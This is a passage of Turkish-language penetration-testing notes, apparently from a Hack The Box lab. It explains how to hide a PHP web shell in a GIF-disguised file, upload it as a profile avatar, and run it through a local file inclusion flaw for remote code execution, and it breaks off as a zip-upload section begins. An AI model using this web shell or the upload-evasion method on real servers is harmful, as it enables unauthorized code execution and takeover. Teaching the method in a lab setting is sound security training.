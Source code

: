 ### **Zararlı Görsel Oluşturma**  
İlk adımımız, PHP web shell kodu içeren, ancak hala bir görsel gibi görünen ve çalışan bir zararlı görsel oluşturmaktır. Bunun için dosya ismimizde izin verilen bir görsel uzantısı kullanacağız (örneğin, `shell.gif`) ve ayrıca dosya içeriğinin başına görselin magic byte değerlerini (örneğin, `GIF8`) ekleyeceğiz. Bu, yükleme formu hem uzantıyı hem de içerik türünü kontrol ediyorsa işe yarayacaktır. Bunu şu şekilde yapabiliriz:


```shell-session
M1R4CKCK@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Bu dosya tek başına tamamen zararsızdır ve normal web uygulamalarını en ufak bir şekilde etkilemez. Ancak, bunu bir LFI açığı ile birleştirirsek, uzaktan kod çalıştırmaya ulaşabiliriz.  

**Not:** Bu durumda bir `GIF` resmi kullanıyoruz çünkü magic baytları ASCII karakterleri olduğu için kolayca yazılabilirken, diğer uzantılarda URL kodlamamız gereken binary olarak magicv baytlar vardır. Ancak, bu saldırı izin verilen herhangi bir görüntü veya dosya türüyle çalışabilir.

Şimdi, kötü amaçlı resim dosyamızı yüklememiz gerekiyor. Bunu yapmak için, `Profile Settings` sayfasına gidebilir ve avatar resmine tıklayarak resmimizi seçebilir ve ardından upload'a tıklayabiliriz ve resmimiz başarıyla yüklenmelidir:

![Pasted image 20241118023924.png](/img/user/resimler/Pasted%20image%2020241118023924.png)

#### **Yüklenen Dosya Yolu**  

Dosyamızı yükledikten sonra, tek yapmamız gereken LFI güvenlik açığı aracılığıyla onu dahil etmektir. Yüklenen dosyayı dahil etmek için, yüklenen dosyamızın yolunu bilmemiz gerekir. Çoğu durumda, özellikle resimlerde, yüklediğimiz dosyaya erişebiliriz ve URL'sinden yolunu alabiliriz. Bizim durumumuzda, resmi yükledikten sonra kaynak kodunu incelersek, URL'sini alabiliriz:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

**Not:** Gördüğümüz gibi, dosya yolu için `/profile_images/shell.gif` kullanabiliriz. Dosyanın nereye yüklendiğini bilmiyorsak, o zaman bir uploads dizini için fuzz yapabilir ve ardından yüklenen dosyamız için fuzz yapabiliriz, ancak bazı web uygulamaları yüklenen dosyaları düzgün bir şekilde gizlediğinden bu her zaman işe yaramayabilir.  

Yüklenen dosya yolu elimizdeyken, tek yapmamız gereken yüklenen dosyayı LFI savunmasız fonksiyonuna dahil etmektir ve PHP kodu aşağıdaki gibi çalıştırılmalıdır:

![Pasted image 20241118024013.png](/img/user/resimler/Pasted%20image%2020241118024013.png)

**Not:** Yüklediğimiz dosyayı dahil etmek için `./profile_images/` kullandık, çünkü bu durumda LFI güvenlik açığı girdimizin önüne herhangi bir dizin eklemiyor. Girdimizin önüne bir dizin eklemesi durumunda, önceki bölümlerde öğrendiğimiz gibi, bu dizinden ./ dizinini çıkarmamız ve ardından URL yolumuzu kullanmamız yeterlidir `.`

## **Zip Upload**  

Daha önce de belirtildiği gibi, yukarıdaki teknik çok güvenilirdir ve savunmasız fonksiyon kod yürütülmesine izin verdiği sürece çoğu durumda ve çoğu web framework'ünde çalışmalıdır. Aynı amaca ulaşmak için PHP wrapper'larını kullanan sadece PHP'ye özel birkaç teknik daha vardır. Bu teknikler, yukarıdaki tekniğin işe yaramadığı bazı özel durumlarda kullanışlı olabilir.  
